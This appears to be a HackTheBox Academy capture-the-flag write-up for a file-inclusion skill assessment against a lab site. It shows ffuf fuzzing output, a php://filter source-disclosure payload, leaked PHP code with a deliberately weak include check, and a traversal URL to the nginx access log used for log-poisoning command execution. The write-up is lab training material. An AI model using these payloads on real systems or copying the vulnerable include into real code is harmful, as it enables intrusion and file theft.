

# Skill assessment - File inclusion:

The company INLANEFREIGHT has contracted you to perform a web application assessment against one of their public-facing websites. They have been through many assessments in the past but have added some new functionality in a hurry and are particularly concerned about file inclusion/path traversal vulnerabilities.
They provided a target IP address and no further information about their website. Perform a full assessment of the web application checking for file inclusion and path traversal vulnerabilities.
Find the vulnerabilities and submit a final flag using the skills we covered in the module sections to complete this module.
Don't forget to think outside the box!

## Exercise
First at all we must enumerate the directiries for find something [http://83.136.249.210:45840/index.php?page=contact#]
- Fuzz:
```sh
ffuf -w Downloads/directory-list-2.3-medium.txt -u 'http://83.136.249.210:45840/FUZZ.php' -ic

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://83.136.249.210:45840/FUZZ.php
 :: Wordlist         : FUZZ: /home/Anchovy/Downloads/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

about                   [Status: 200, Size: 10313, Words: 2398, Lines: 214, Duration: 58ms]
contact                 [Status: 200, Size: 2714, Words: 773, Lines: 78, Duration: 65ms]
index                   [Status: 200, Size: 15829, Words: 3435, Lines: 401, Duration: 66ms]
main                    [Status: 200, Size: 11507, Words: 2639, Lines: 284, Duration: 44ms]
industries              [Status: 200, Size: 8082, Words: 2018, Lines: 197, Duration: 44ms]
error                   [Status: 200, Size: 199, Words: 41, Lines: 10, Duration: 42ms]
```
We find the industries directory after that we go caido for automate the Proccess, but first we must visualize the code with this url:
[http://83.136.249.210:45840/index.php?page=php://filter/read=convert.base64-encode/resource=index]
```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <title>InlaneFreight</title>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

    <link rel="stylesheet" href="https://fonts.googleapis.com/css?family=Poppins:200,300,400,700,900|Display+Playfair:200,300,400,700">
    <link rel="stylesheet" href="fonts/icomoon/style.css">

    <link rel="stylesheet" href="css/bootstrap.min.css">
    <link rel="stylesheet" href="css/magnific-popup.css">
    <link rel="stylesheet" href="css/jquery-ui.css">
    <link rel="stylesheet" href="css/owl.carousel.min.css">
    <link rel="stylesheet" href="css/owl.theme.default.min.css">

    <link rel="stylesheet" href="css/bootstrap-datepicker.css">

    <link rel="stylesheet" href="fonts/flaticon/font/flaticon.css">


    <link rel="stylesheet" href="css/aos.css">

    <link rel="stylesheet" href="css/style.css">

  </head>
  <body>

  <div class="site-wrap">

    <div class="site-mobile-menu">
      <div class="site-mobile-menu-header">
        <div class="site-mobile-menu-close mt-3">
          <span class="icon-close2 js-menu-toggle"></span>
        </div>
      </div>
      <div class="site-mobile-menu-body"></div>
    </div>

    <header class="site-navbar py-3" role="banner">

      <div class="container">
        <div class="row align-items-center">

          <div class="col-11 col-xl-2">
            <h1 class="mb-0"><a href="index.php" class="text-white h2 mb-0">InlaneFreight</a></h1>
          </div>
          <div class="col-12 col-md-10 d-none d-xl-block">
            <nav class="site-navigation position-relative text-right" role="navigation">

              <ul class="site-menu js-clone-nav mx-auto d-none d-lg-block">
                <li class="active"><a href="index.php">Home</a></li>
                <li><a href="index.php?page=about">About Us</a></li>
                <li><a href="index.php?page=industries">Industries</a></li>
                <li><a href="index.php?page=contact">Contact</a></li>
		<?php
		  // echo '<li><a href="ilf_admin/index.php">Admin</a></li>';
		?>
              </ul>
            </nav>
          </div>


          <div class="d-inline-block d-xl-none ml-md-0 mr-auto py-3" style="position: relative; top: 3px;"><a href="#" class="site-menu-toggle js-menu-toggle text-white"><span class="icon-menu h3"></span></a></div>

          </div>

        </div>
      </div>

    </header>


    <div class="site-blocks-cover overlay" style="background-image: url(images/hero_bg_1.jpg);" data-aos="fade" data-stellar-background-ratio="0.5">
      <div class="container">
        <div class="row align-items-center justify-content-center text-center">

          <div class="col-md-8" data-aos="fade-up" data-aos-delay="400">


            <h1 class="text-white font-weight-light mb-5 text-uppercase font-weight-bold">Worldwide Freight Services</h1>
            <p><a href="#" class="btn btn-primary py-3 px-5 text-white">Get Started!</a></p>

          </div>
        </div>
      </div>
    </div>

<?php
if(!isset($_GET['page'])) {
  include "main.php";
}
else {
  $page = $_GET['page'];
  if (strpos($page, "..") !== false) {
    include "error.php";
  }
  else {
    include $page . ".php";
  }
}
?>
    <footer class="site-footer">
        <div class="row pt-5 mt-5 text-center">
          <div class="col-md-12">
            <div class="border-top pt-5">
            <p>
            <!-- Link back to Colorlib can't be removed. Template is licensed under CC BY 3.0. -->
            Copyright &copy;<https://academy.hackthebox.com/achievement/349590/23script>document.write(new Date().getFullYear());</script> All rights reserved | This template is made with <i class="icon-heart" aria-hidden="true"></i> by <a href="https://colorlib.com" target="_blank" >Colorlib</a>
            <!-- Link back to Colorlib can't be removed. Template is licensed under CC BY 3.0. -->
            </p>
            </div>
          </div>
    </footer>
  </div>

  <script src="js/jquery-3.3.1.min.js"></script>
  <script src="js/jquery-migrate-3.0.1.min.js"></script>
  <script src="js/jquery-ui.js"></script>
  <script src="js/popper.min.js"></script>
  <script src="js/bootstrap.min.js"></script>
  <script src="js/owl.carousel.min.js"></script>
  <script src="js/jquery.stellar.min.js"></script>
  <script src="js/jquery.countdown.min.js"></script>
  <script src="js/jquery.magnific-popup.min.js"></script>
  <script src="js/bootstrap-datepicker.min.js"></script>
  <script src="js/aos.js"></script>

  <script src="js/main.js"></script>

  </body>
</html>


```
We find the interesting endpoint:

[http://83.136.249.210:45840/ilf_admin/index.php?log=http.log]
In the logs we find something interest for excute the command injection,[http://94.237.58.73:53247/ilf_admin/index.php?log=../../../../../..//var/log/nginx/access.log].

cat the flag and gg.

https://academy.hackthebox.com/achievement/349590/23
